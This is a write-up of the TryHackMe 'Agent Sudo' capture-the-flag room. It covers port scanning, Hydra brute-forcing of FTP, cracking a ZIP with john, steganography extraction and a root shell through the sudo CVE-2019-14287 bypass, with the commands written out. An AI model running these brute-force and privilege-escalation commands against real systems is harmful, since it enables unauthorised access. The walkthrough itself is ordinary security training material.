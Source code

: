 ```yaml
---
title: "Agent Sudo"
date: 2020-05-09T10:17:19+02:00
categories:
- Writeups
tags:
- tryhackme
- sudo
- cracking
---
```


![Agent sudo](/images/agent-sudo/agent-sudo.png)

This room can be found at [Tryhackme](https://tryhackme.com/room/agentsudoctf). It is a pretty simple and fun room that requires the knowlege of a few password cracking tools and privelege escalation.

## Enumerate

Run `nmap` with `nmap -sV -sC -vv $IP | tee nmap.txt` and we see that we have three ports open: 21, 22 and 80.

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Change the user agent to `C` and get redirected to a page `$IP/agent_C_attention.php`. We get the information that the user is called `chris`. 

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

## Hash Cracking and Brute-Force

We now have a user and know that the password should be weak. Let's start with FTP.

### FTP

`ftp` can be cracked with `Hydra`

```bash
hydra -l chris -P /usr/share/wordlists/users/100_common_passwords.txt -vV $IP ftp
```

Password not found. Let's test a bigger list:

```bash
hydra -l chris -P /usr/share/wordlists/users/1000_common_passwords.txt -vV $IP ftp
```

Password found!

Use `ftp $IP` to connect to the `ftp` server and download the files using `get <file>`.

### ZIP

Running `strings cutie.png` reveals that there is something in the file.

We run `binwalk -e cutie.png` to extract all embedded files. We find a password protected ZIP file called `8702.zip`. We can use `john` to crack the password. 

```bash
zip2john 8702.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password found!

The file `To_agentR.txt` now has content:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

### Steganography

Decode the string with base64: `echo QXJlYTUx | base64 -d`.

Use `steghide` to find hidden message in `cute_alien.jpg`.

`steghide extract -sf cute_alien.jpg`

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We now have a password for the user `james` and can login with `ssh`.

```bash
ssh james@$IP
```

## Privlege Escalation

We upload `LinEnum.sh` to the remote server.

```
[-] Sudo version:
Sudo version 1.8.21p2
```

We find that there is a vulnerability for the `sudo` version `CVE-2019-14287`.

`sudo -l` reveals that `james` can run the command `/bin/bash` as any user but `root` which seems fine.

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

However, the vulnerability is that if we specify a user ID such as *-1*, it will run as the id *0* which is the root user.

```bash
sudo -u#-1 /bin/bash
```

This gives us `root` and we can find the root flag!
